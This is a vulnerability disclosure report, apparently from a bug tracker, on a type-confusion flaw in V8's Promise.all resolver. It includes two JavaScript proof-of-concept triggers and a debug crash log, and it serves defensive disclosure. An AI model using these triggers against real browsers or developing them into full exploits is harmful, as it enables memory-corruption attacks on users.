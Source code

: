 The Promise.all method internally uses PromiseAllResolveElementClosure (https://cs.chromium.org/chromium/src/v8/src/builtins/builtins-promise-gen.cc?rcl=dc2d3bb9711effb349df58af26c49169aa019121&l=1910) as a resolver for each of given Promise objects to insert a value into the result array at a specific index.

PromiseAllResolveElementClosure first tries to grow the capacity of the result array, and if it fails due to the index being too large, it uses the CreateDataProperty method to insert the value. The problem is, the growing operation (https://cs.chromium.org/chromium/src/v8/src/builtins/builtins-promise-gen.cc?rcl=dc2d3bb9711effb349df58af26c49169aa019121&l=1933) always excepts the elements kind of the array to be PACKED_ELEMENTS despite the CreateDataProperty can transition it to DICTIONARY_ELEMENTS.

PoC with comments:
let arr = new Array(0x10000);
let resolve_element_closures = new Array(0x10000);

for (let i = 0; i < arr.length; i++) {
    arr[i] = new Promise(() => {});
    arr[i].then = ((idx, resolve) => {
        resolve_element_closures[idx] = resolve;
    }).bind(null, i);
}

Promise.all(arr);

// 0xffff is too large, transitions to DICTIONARY_ELEMENTS
resolve_element_closures[0xffff]();

// grows the capacity, the elements kind of the result array is still DICTIONARY_ELEMENTS, but the elements object of it is no more a dictionary.
resolve_element_closures[100]();

// You can observe that V8 crashes here in debug mode.
resolve_element_closures[0xfffe]();

PoC for release mode:
var promise = new Promise(() => {})
promise.then = function (cb) {
    cb();
};

let arr = new Array(0x10000);
arr.fill(0);
arr[arr.length - 1] = promise;

Promise.all(arr);


Crash log:
#
# Fatal error in ../../src/objects-inl.h, line 2814
# Debug check failed: fixed_array->IsDictionary().
#
#
#
#FailureMessage Object: 0x7f122141d860
==== C stack trace ===============================

    ./d8(__interceptor_backtrace+0x61) [0x561ea9b7c0e1]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8_libbase.so(v8::base::debug::StackTrace::StackTrace()+0x1e) [0x7f122c26dcee]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8_libplatform.so(+0x6b924) [0x7f122c19f924]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8_libbase.so(V8_Fatal(char const*, int, char const*, ...)+0x3a4) [0x7f122c2351e4]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8_libbase.so(+0x557e7) [0x7f122c2347e7]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8_libbase.so(V8_Dcheck(char const*, int, char const*)+0x32) [0x7f122c235332]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8.so(v8::internal::JSObject::GetElementsKind()+0x25b) [0x7f12280f7f6b]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8.so(v8::internal::JSObject::GetElementsAccessor()+0x15) [0x7f122a146185]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8.so(v8::internal::LookupIterator::State v8::internal::LookupIterator::LookupInRegularHolder<true>(v8::internal::Map*, v8::internal::JSReceiver*)+0x20e) [0x7f122a02082e]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8.so(v8::internal::LookupIterator::State v8::internal::LookupIterator::LookupInHolder<true>(v8::internal::Map*, v8::internal::JSReceiver*)+0x5c) [0x7f122a01b90c]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8.so(void v8::internal::LookupIterator::Start<true>()+0x212) [0x7f122a01b772]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8.so(v8::internal::LookupIterator::LookupIterator(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Object>, unsigned int, v8::internal::Handle<v8::internal::JSReceiver>, v8::internal::LookupIterator::Configuration)+0x6da) [0x7f1227c8151a]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8.so(v8::internal::LookupIterator::LookupIterator(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Object>, unsigned int, v8::internal::LookupIterator::Configuration)+0x2ee) [0x7f1227c8073e]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8.so(v8::internal::LookupIterator::PropertyOrElement(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Object>, v8::internal::Handle<v8::internal::Object>, bool*, v8::internal::LookupIterator::Configuration)+0x547) [0x7f122a007d07]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8.so(+0x4833085) [0x7f122a9a8085]
    /home/lokihardt/debug/v8/out.gn/x64.debug/./libv8.so(v8::internal::Runtime_CreateDataProperty(int, v8::internal::Object**, v8::internal::Isolate*)+0x30f) [0x7f122a9a6f2f]
    [0x7efc88a04584]


This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.